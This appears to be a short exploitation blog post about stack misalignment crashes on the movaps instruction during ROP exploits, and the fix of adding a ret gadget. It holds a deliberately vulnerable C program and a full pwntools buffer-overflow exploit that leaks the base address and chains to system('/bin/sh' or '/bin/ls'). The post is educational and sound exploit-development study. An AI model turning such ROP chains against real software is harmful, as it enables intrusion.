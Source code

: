 ```yaml
---
title: "#1 movaps crash"
tags: ["mini", "ROP"]
---
```


When developing a ROP exploit I kept on crashing on a `movaps xmmword ptr [rsp], xmm0` instruction.

![](/assets/img/2020-10-07-1_movaps_crash.png)

After some investigating I found this was happening because the `movaps` (Move **Aligned** Packed Single-Precision Floating-Point Values) memory operands must be aligned on a 16-byte boundary or a general-protection exception (#GP) is generated. In the example above, the stack is not 16 byte aligned hence the crash.

The easiest way to fix our exploit is adding a `ret` gadget to our ROP chain which will act as a NOP, but increment the stack by 8, aligning it.

## Part 2
At some other time I had this simple ROP chain that sets `rdi` to `"/bin/sh"` and calls system from the `plt` of the program. However, even though `system` is called, no shell is popped and no crash happens inside `system`.

```python
ROP = "".join([
    set_rdi(bin_sh_addr),  # rsi = '/bin/sh'
    p64(base + elf.plt['system']),
])
```

Adding a `ret` before the call to `system` (any odd number of `ret`s would work), aligning the stack to 16 bytes, a shell pops. :O
```python
ROP = "".join([
    set_rdi(bin_sh_addr),  # rsi = '/bin/sh'
    p64(base + 0x5d0),     # ret  ---> ['0x5d0', ...]
    p64(base + elf.plt['system']),
])
```

As an example let's use this challenge and exploit to investigate it.
```cpp
#include <stdio.h>
#include <stdlib.h>

int put_system_in_got() {
    system("/bin/ls");
}

int main() {
    printf("'main' leak @ %p\n", main);
    char buf[256];
    printf("buf:");
    scanf("%512s", buf);
}
```

```python
#!/usr/bin/python2
from pwn import *
import sys

FILENAME = "./test"
elf = ELF(FILENAME)

def set_rdi(rdi):
    return "".join([
        p64(elf.address + 0x7d3), # ('pop rdi', 'ret') --> ['0x7d3']
        p64(rdi),
    ])

def go():
    s = process(FILENAME)
    if "wait" in sys.argv:
        raw_input("Enter any key to continue...")

    # ====================
    # leak
    s.recvuntil("'main' leak @ ")
    main_leak = int(s.recvline().strip(), 16)
    elf.address = main_leak - elf.symbols['main']
    print "      elf.address @", hex(elf.address)
    print "elf.plt['system'] @", hex(elf.plt['system'])

    # ====================
    # overflow
    # With a odd amount of ret's between set_rdi and system we see the 'ls'.
    # Otherwise "/bin/ls" does not run
    ROP = "".join([
        set_rdi(next(elf.search("/bin/ls"))),
        # p64(elf.address + 0x762), # ret
        p64(elf.plt['system']),
        p64(0xdeadbeef),
    ])
    payload = "A"*(256+8) + ROP
    s.sendline(payload)
    s.interactive()

go()
```

I started by using [PIN](https://software.intel.com/content/www/us/en/develop/articles/pin-a-dynamic-binary-instrumentation-tool.html) to trace the instructions of this binary when the exploit is successful (with the `ret`) and when it fails, but found no really interesting differences, contrary to what I thought was going to happen. Afterwards I decided to simply `strace` both versions. Nothing too interesting.

At this point I realized the new program (`bin/ls` in this case) is spawning but crashing for some reason. By running `strace -f` to follow the child process we can see big differences. When the exploit fails we see almost no output, meaning the program crashes almost immediatly. Let's confirm with `gdb`. To do this I place a breakpoint in the `clone` syscall inside `system` that spawns the new process and `set follow-fork-mode child` so gdb knows to follow the child. Step 10-20 times and we find our culprit.. `movaps` again!

![](/assets/img/2020-10-05-1_movaps_crash_2.png)
